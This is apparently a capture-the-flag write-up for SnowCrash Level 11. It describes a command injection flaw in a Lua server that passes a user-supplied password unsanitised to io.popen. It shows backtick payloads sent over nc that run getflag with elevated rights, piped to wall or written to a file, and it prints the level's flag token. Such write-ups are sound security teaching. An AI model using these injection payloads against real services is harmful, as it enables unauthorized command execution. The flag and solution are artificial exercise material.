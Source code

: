 ## BONUS: Level 11

We found a single file [level11.lua](./level11.lua) containing a server accepting connections and asking for a password which will be hashed.

Issue being that it only return `Erf nope..` if we didn't input the right pass, or `Gw you dumb*` if we get the good one.

Hinting us at the fact that the hashed pass isn't what we look for.

### Exploit

```lua
  prog = io.popen("echo "..pass.." | sha1sum", "r")
```

We have control over `pass` since it's what we send to the server after the connection is made with the server.

It uses an `echo` which means that we somehow have control over something, second issue being that it returns the output of popen in a stream `prog`.

Obviously even the `print` later in the script isn't useful since it's supposed to print server side and not client side.

Now the intersting part:

We can use a wonderfull shell command named [wall](https://linuxize.com/post/wall-command-in-linux/) which will broadcast the output of the previous command to every logged user. Which is amazing since the user connected via `nc` is considered in this list.

As we saw in this test:

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `echo lol | wall`
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 15:27 ...                                               
                                                                               
lol                                                                            
                                                                               
Erf nope..
```

When trying to echo the "lol" and piping it to `wall`. The execution of the script get broadcasted to every user connected to the machine. Moreover, the message is broadcasted as `flag11@snow` which means that it's executed as sudo (previously hinted by the `s` permissions when we used `ls -la`).

And so, here is the result:

```bash
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `echo \`getflag\` | wall`
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 15:27 ...                                               
                                                                               
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s                      
                                                                               
Erf nope..
```

`getflag` gets executed as sudo and piped into `wall` which will broadcast the result to us and so we directly get the flag!

### Other solution

Another solution, [agirona](https://github.com/PsyCowpathe) found later which doesn't use `wall`:

```bash
level11@SnowCrash:~$ nc localhost 5151
Password: `getflag > /var/crash/pass`
Erf nope..
level11@SnowCrash:~$ cat /var/crash/pass 
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

## Flag

fa6v5ateaw21peobuub8ipe6s
